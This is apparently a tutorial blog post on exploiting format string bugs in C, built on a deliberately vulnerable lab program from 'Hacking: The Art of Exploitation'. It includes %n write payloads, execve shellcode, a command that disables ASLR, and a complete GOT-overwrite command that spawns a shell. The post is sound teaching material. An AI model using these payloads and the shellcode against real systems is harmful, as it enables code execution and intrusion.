


Format string vulnerability
- What’s a format string vulnerability?
- What’s the problem?
- Format String vulnerability demo
- Write to memory address
- Write arbitrary bytes to memory address
- Direct access and short writes
- Overwrite Global Offset Table to get a shell
- Conclusion
What’s a format string vulnerability?
A format string vulnerability is a type of bug that can happen when we
process user input with format strings. For example, C has several
functions that allow it to do that. One of them is printf (e.g.
printf("I am %i years old", 999);). An attacker can exploit them to
read and write to arbitrary memory locations, execute arbitrary code or
make the program crash.
What’s the problem?
The main problem is that the format string, when unchecked, let’s user insert format parameters to read and write memory addresses inside and before the stack. For example, let’s take the following C line of code.
printf("hello %x %x", 3, 7);
If we run it, the output will be hello 3 7. The parameters are pushed
into the stack in reverse order. It pushes the 7, the 3, and the address
of the format string. However, if we remove the 7 and rerun it, we will
see something like hello 3 0xbfffff8b. The format string will get the
data from where the argument should have been placed. In that case, from
the first address below the stack frame.
Format String vulnerability demo
All the vulnerable programs are from Hacking: The Art of Exploitation, 2nd Edition. You can get the original source code https://github.com/intere/hacking/blob/master/booksrc.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
char text[1024];
static int test_val = -72;
if(argc < 2) {
printf("Usage: %s <text to print>\n", argv[0]);
exit(0);
}
strcpy(text, argv[1]);
printf("The right way to print user-controlled input:\n");
printf("%s", text);
printf("\nThe wrong way to print user-controlled input:\n");
printf(text);
printf("\n");
// Debug output
printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
exit(0);
}
The code is quite self-explanatory. The vulnerable line of code is:
printf(text). Notice that it will print whatever the user feeds to it
as input. We can pass any format string that we want. Before continuing,
let’s see how to compile the program.
gcc fmt_vuln.c -o fmt.out -fno-stack-protector -no-pie -m32
-fno-stack-protectorto disable canaries-no-pieto disable Position Independent Executable-m32to compile it as a 32 bit binary
Let’s continue with the exploit. The following image shows two executions.

The first executions gets "something" as input. The output is the
expected one. The interesting part is in the second execution, where we
pass $(printf "\x2c\xc0\x04\x08").%08x.%08x.%08x.%n as input (the dots
are just to make the output clearer). As a result, we overwrite the
test_val variable. How is that possible? Let’s see. The format string
is crafted to accomplish three things. First, we push the test_val
memory address into the stack with $(printf "\x2c\xc0\x04\x08").
Second, we read memory address until we reach the data we inserted at
the beginning of the format string with %08x.%08x.%08x. I didn’t know
beforehand that I needed to read three addresses, I checked it manually.
Third and last, we overwrite the data in test_val with the number of
characters printed by printf with %n. For clarification, when we call
%n, we already traversed all the memory addresses until the one
containing \x2c\xc0\x04\x08. Therefore, %n overwrites the data in
that memory address, which happens to be test_val.
Similarly, if we increment the width of some of the format string
parameters, we can overwrite test_val with higher values.

That’s seemingly stupid thing is really powerful. We can overwrite memory addresses with whatever value we want (e.g another memory address). That’s the idea of the exploit. Let’s jump to the following exercise.
Write to memory address
In that first exercise, we will see how to overwrite the value with the
memory address ddccbbaa. Of course, you can follow these steps to
overwrite it with any other memory address of your liking. The only
prerequisite is that the hexadecimal values of each byte must be greater
than the value of the following one.
To write ddccbbaa, we need go byte by byte. We cannot write them at
once. That means that $(printf "\x2c\xc0\x04\x08") won’t be enough. We
need to push the following three memory addresses into the stack. We can
do that with something like
$(printf "{address 1}{address 2}{address 3}{address 4}"). Besides, we
also need to overwrite them. For example,
$(printf "{address 1}{address 2}{address 3}{address 4}").%08x.%08x.%{number 1}x%n%{number 2}x%n%{number 3}x%n%{number 4}%n,
where each %{number}%n is overwriting one byte. There’s one issue,
though. We must add 4 bytes between each memory address so that each
%n overwrites the correct memory address. Remember, each format
parameter is reading a memory address from the stack. If we don’t add 4
bytes between each address, the %{number}x would read one of the
memory addresses we want to overwrite. Thus, we want something similar
to
$(printf "{address 1}JUNK{address 2}JUNK{address 3}JUNK{address 4}").%08x.%08x.%{number 1}x%n%{number 2}x%n%{number 3}x%n%{number 4}%n.
Great! We have the structure, but how do we compute the numbers for each
%x?
For the firts byte, we want to execute the command
./fmt.out $(printf "\x2c\xc0\x04\x08JUNK\x2d\xc0\x04\x08JUNK\x2e\xc0\x04\x08JUNK\x2f\xc0\x04\x08").%08x.%08x.%08x.%n
which will give us the value of test_val (56). With that, we can
compute the first number with the formula “expected value - initial
value + 8”. That will give us the distance from the actual value stored
in the variable to the value we want. The ”+ 8” comes from the 8 digits
we are inserting in the %08x that appears before %n. We can compute
this with gdb.
gdb -q --batch --ex "p 0xaa - 56 + 8"
Now, we can execute the following to get the first byte.

For the following bytes, we have to do the same. However, to compute the numbers, we will use the formula “expected value - previous written value”.

Awesome! We know how to overwrite memory addresses, but we are rather
limited. The bytes must be ordered in descending value. What if we want
to write any arbitrary memory address? We cannot do something like
%-10x%n. What do we do in those situations?
Write arbitrary bytes to memory address
The solution for that is straigth forward. We want to “wrap” the smaller byte. In other words, instead of computing “expected value - previous written value” we will compute “1(expected value) - previous written value” (e.g. 0x1aa - 0xbb given that we want to write 0xaa). The procedure stays the same.

Amazing! But this is to much work, can’t we simplify it a little bit?
Direct access and short writes
There are two ways to simplify the process. First, we can use direct
access to avoid writing numerous format parameters. We can use %n$d
where %n indicates the argument position and $d indicates the format
parameter type.

We can simplify what we did in the previous section. Be aware that the
structure changes a bit. We want to use
$(printf "{address 1}{address 2}{address 3}{address 4}")%{number 1}x%4\$n%{number 2}x%5\$n%{number 3}x%6\$n%{number 4}x%7\$n%.
Notice that we no longer need:
- the padding between memory addresses
- to add 8 when computing the first value

But that’s not all. We can also use short writes to write two bytes at
once. We need to use %n$hd, remove the second and fourth memory
addresses, and compute the new values.


Pretty neat, eh? With that knowledge, we could get a shell if we wanted to.
Overwrite Global Offset Table to get a shell
The Global Offset Table (GOT) is a section of a computer program that holds the memory addresses of functions that are dinamically linked. It’s useful to call functions from shared libraries. We will rewrite a memory address there with the address of our shellcode, but first, let’s see how to compile the program.
gcc fmt_vuln.c -o fmt.out -fno-stack-protector -no-pie -z norelro -z execstack -m32
Notice that we added -z norelro to allow overwriting memory addresses
in the GOT, and -z execstack to require executable stack.
We also need to disable the Adress Space Layout Randomization (ASLR) to avoid random memory addreses.
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
Now, the idea is pretty simple. We want to overwrite the memory address
of the exit function in the GOT table. For that, we will need a couple
of things.
We need a 32 bits shellcode. We can get one with the following C program. I got it from https://shell-storm.org/.
#include <stdio.h>
#include <string.h>
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
We also need a program to get the shellcode address. We will store in an environment variable.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
char *ptr;
if(argc < 3) {
printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
exit(0);
}
ptr = getenv(argv[1]); /* get env var location */
ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
printf("%s will be at %p\n", argv[1], ptr);
}
From that point, the procedure is pretty straight forward.
-
Store shellcode in an environment variable
export SHELLCODE=$(cat shellcode.bin) -
Get shellcode address
./getenv.out SHELLCODE ./fmt.out -
Compute the values we will put at the format string exploit for the given shellcode address
gdb -q --batch --ex "p 0xffff - 8" # 65527 gdb -q --batch --ex "p 0x1d9b8 - 0xffff" # 55737 -
Get
exitaddress in GOT
-
Exploit
./fmt.out $(printf "\x7a\xb2\x04\x08\x78\xb2\x04\x08")%65527x%4\$hn%55737x%5\$hn
Conclusion
Don’t execute format string inputted by the users. Thanks. That will save you lots of headaches.